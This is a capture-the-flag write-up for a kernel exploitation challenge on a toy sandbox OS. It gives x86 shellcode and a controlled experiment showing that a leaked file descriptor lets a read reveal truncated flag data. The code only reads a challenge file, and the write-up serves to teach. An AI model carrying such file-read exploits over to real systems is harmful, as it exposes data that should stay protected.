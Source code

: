 # How a buggy program solves a 400 point challenge
**Writeup Author:** Kevin He (Username `trinary-exploitation`)  
**Category:** Kernel Exploitation
> ## Freaky_File_Descriptors (13 solves, 400 points)
> How does the OS know what bytes to give you when you call read? How does it keep track of how far you've read into a file?
> 
> Find an exploit that lets you read past the end of /sandb0x/freaky_fds.txt and see what was truncated!

To start, I ran `cat /sandb0x/freaky_fds.txt` to see if the file is suspicious, I got:
> \[Devlog\]: On second thought, keeping this info stored in plaintext is too dangerous. I'm going to redact the secure parts.  
> 
> User: sandb0x  
> Password: pwny
> 
> Super important flag for the Freaky File Descriptors challenge:

And nothing more was printed to the screen.

## The memory initialization myth

Since the challenge suggests that there is truncated data after the file, I initially thought it would be as easy as requesting more bytes to read than the file's length, so I wrote this piece of shellcode (this will be referred to as _Shellcode A_ later on):

**Shellcode A**
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov ebx, eax ; fd from OPEN
mov eax, 4 ; Syscall number for READ
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

Compiling this with `rasm2 -f <filename>` gives the following shellcode:
```
b802000000bbd6e00408cd8089c3b804000000b9eee00408baf4010000cd80b805000000bb00000000b9eee00408baf4010000cd80c32f73616e646230782f667265616b795f6664732e74787400
```

But using this shellcode, I got the same result obtained from `cat`, except for some padding spaces (which are actually uninitialized unprintable characters) at the end:

![Nothing is read past the end of the file](assets/freaky-fd-fail.png)

I thought that the reason it failed was because part of the buffer after the shellcode was not writable by the process so `READ` had ignored it for security reasons, so I tried again but this time initializing the content after label `buffer:` with underscores, which can be done simply by appending 500 `5f`'s (ASCII code for underscore) to the end of the shellcode (will be referred to as _Shellcode B_). To speed up this process (avoid manual typing), I used some PowerShell scripts which can be found in [`scripts/`](scripts/) in this repository.

After bombarding the screen with `5f`, I couldn't believe my eyes:

![The flag with underscores after it](assets/freaky-fd.png)

## Why does this exploit work?

After the CTF is over, I wanted to figure out why this trick works. As I experimented with the `READ` syscall, I found that it refuses to read more characters than the file has by returning fewer characters than requested in the `buf_size` argument. So if that is the case, this exploit would not have worked. I was also very skeptical of whether memory initialization causes `READ` to dump the flag.

In addition, I forgot to close the file descriptor opened by `OPEN` syscall, so I wondered if by running the shellcode &mdash; and thus calling `OPEN` &mdash; multiple times will also contribute to getting the flag.

### A simple experiment

To test out which factor caused `READ` to reveal the flag, I designed a simple controlled experiment with 3 trials:  
- Trial A: Running _Shellcode A_ (the original shellcode _without_ `5f` padding) **twice** in binexec
    - This eliminates memory initialization as a confounding variable
- Trial B: Running _Shellcode B_ (the shellcode _with_ `5f` padding) **once** in binexec
    - This eliminates running `OPEN` multiple times as a confounding variable
- Trial C (Control): Running _Shellcode C_ (shown below) twice. Shellcode C is based on shellcode A but fixes the handle leak bug in shellcode A by calling `CLOSE(fd)` before it exits.

**Shellcode C**
<!-- cSpell:ignore sizebuf -->
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov edi, eax ; store fd into edi, which won't be clobbered in syscalls
mov eax, 4 ; Syscall number for READ
mov ebx, edi ; fd from OPEN
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
mov eax, 3 ; syscall number for CLOSE
mov ebx, edi ; stored fd from OPEN
int 0x80 ; CLOSE(fd)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

To eliminate the current system state as a variable, I rebooted the whole system (Ctrl-X) before running each trial.

### The results

Trial A (running _Shellcode A_ twice) produced the exact same result as if I ran _Shellcode A_ and then _Shellcode B_ as I did while the CTF is running. This concluded that calling `OPEN` twice alone is enough to make `READ` leak the flag, but does memory initialization alone also do the job?

Running trial B (running _Shellcode B_ once), gave me no flag at all, with underscores in the redacted part. This proved that memory initialization plays no role at all and filling `5f`s as I did during the CTF was completely superfluous.

Trial C did not give me the flag, even though I ran _Shellcode C_ twice, this showed that properly closing a file before opening it again in the same process will not trigger the flag-leaking bug.

## End Notes
There are 13 solves to this 400 point challenge (compared to only 5 solves in Kernel_Memory_Leak which is 300 points), which seems quite surprising. Even the contest managers imaged that people might be utilizing a bug that would qualify as a Small Oops. My explanation for this solve number is that most people, like me, wrote a buggy program that did not properly close a file descriptor and ran it again in the same `binexec` session after making unnecessary modifications (or no modifications at all). So future CTF makers have to be careful in designing problems that are difficult to solve not only by valid programs but also by buggy programs.
